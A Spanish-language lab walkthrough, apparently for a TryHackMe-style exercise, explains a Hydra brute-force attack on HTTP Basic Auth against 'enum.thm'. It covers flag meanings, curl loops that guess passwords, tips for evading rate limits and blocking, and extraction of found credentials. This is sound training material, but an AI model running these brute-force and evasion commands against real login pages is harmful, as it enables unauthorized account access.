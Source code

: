 ╼ $hydra -l admin -P ~/Downloads/pass.txt enum.thm http-get /labs/basic_auth/ -t 8 -f -V -o ~/hydra_basic_auth_hits.txt

Bloque 1 — Comando completo (tu línea)

```
hydra -l admin -P ~/Downloads/pass.txt enum.thm http-get /labs/basic_auth/ -t 8 -f -V -o ~/hydra_basic_auth_hits.txt
```

Bloque 2 — Desglose exacto (flag → función)

```
hydra                 # herramienta de fuerza bruta
-l admin              # usuario fijo: "admin"
-P ~/Downloads/pass.txt  # fichero con listas de contraseñas (una por línea)
enum.thm              # objetivo (host) que Hydra resolverá a IP
http-get /labs/basic_auth/  # módulo http-get + ruta objetivo (genera header Authorization)
-t 8                  # número de tareas/threads concurrentes (máx. intentos paralelos)
-f                    # salir al primer credencial válida encontrada
-V                    # verbose: muestra cada intento y respuesta HTTP en stdout
-o ~/hydra_basic_auth_hits.txt  # volcar resultados (hits) a fichero
```

Bloque 3 — Cómo Hydra hace Basic Auth (lo que sucede en la red)

```
1) Para cada intento Hydra toma "admin:PASS".
2) Codifica "admin:PASS" en base64.
3) Envía petición HTTP con header:
   Authorization: Basic <base64(admin:PASS)>
   y solicita la ruta indicada: GET /labs/basic_auth/ HTTP/1.1
4) Interpreta el código HTTP devuelto; un 200 (OK) se considera éxito para este módulo.
```

Bloque 4 — Qué ver en -V (qué buscar en la salida)

```
- Líneas por intento mostrando STATUS/HTTP_CODE.
- Mensaje final tipo: [80][http-get] host: enum.thm   login: admin   password: SECRET
- Si ves 401 repetidos → credenciales rechazadas.
- Si ves 302/301 → redirección; Hydra puede seguir sin detectar éxito (usar http-head o curl para confirmar).
- Si ves 429 o bloqueos → rate-limit; reduce -t o usa split+pausas.
```

Bloque 5 — Comprobaciones rápidas si algo falla

```
# Probar exactamente la cabecera que Hydra envía (reproduce un intento)
curl -I -s -H "Authorization: Basic $(echo -n 'admin:PASS' | base64)" "http://enum.thm/labs/basic_auth/"

# Probar sin trailing slash (a veces cambia respuesta)
hydra -l admin -P ~/Downloads/pass.txt enum.thm http-get /labs/basic_auth -t 4 -f -V

# Usar http-head si sólo interesa código y minimizar cuerpo
hydra -l admin -P ~/Downloads/pass.txt enum.thm http-head /labs/basic_auth/ -t 4 -f -V
```

Bloque 6 — Manejo de carga / evitar bloqueo

```
- Reducir concurrencia: -t 2..8 según tolerancia.
- Dividir wordlist y añadir pausas:
  split -l 10000 ~/Downloads/pass.txt chunk_
  for f in chunk_*; do
    hydra -l admin -P "$f" enum.thm http-get /labs/basic_auth/ -t 4 -f -V -o hits_"$f".txt
    sleep 10
  done
- O usar un loop curl con sleep si Hydra choca contra protecciones:
  while read -r p; do
    code=$(curl -s -o /dev/null -w "%{http_code}" -H "Authorization: Basic $(echo -n "admin:$p"|base64)" "http://enum.thm/labs/basic_auth/")
    [ "$code" = "200" ] && echo "FOUND: admin:$p" && break
    sleep 0.5
  done < ~/Downloads/pass.txt
```

Bloque 7 — Formato de salida y extracción automatizada

```
# ejemplo de línea de Hydra:
# [80][http-get] host: enum.thm   login: admin   password: PASSWORD

# extraer user:pass
grep -Eo 'login: [^ ]+ +password: .+' ~/hydra_basic_auth_hits.txt | sed 's/login: //;s/  password: /:/'
```

Bloque 8 — Limitaciones y notas técnicas

```
- Hydra detecta éxito según comportamiento esperado por el módulo: para http-get normalmente 200. Si la aplicación devuelve 200 también en fallo (página de login con 200), Hydra tendrá falsos positivos/negativos.
- Redirecciones, cookies, JavaScript y HTML dinámico pueden invalidar detecciones simples; en esos casos reproducir intentos con curl o Burp es más fiable.
- No hay resume nativo fiable para módulos http; usa split/offset para reanudar.
- Ajusta Host/Host: header si trabajas con nombre virtual (Hydra usa el host que le pasas; si hay conflicto, usa curl-loop).
```

Fin.
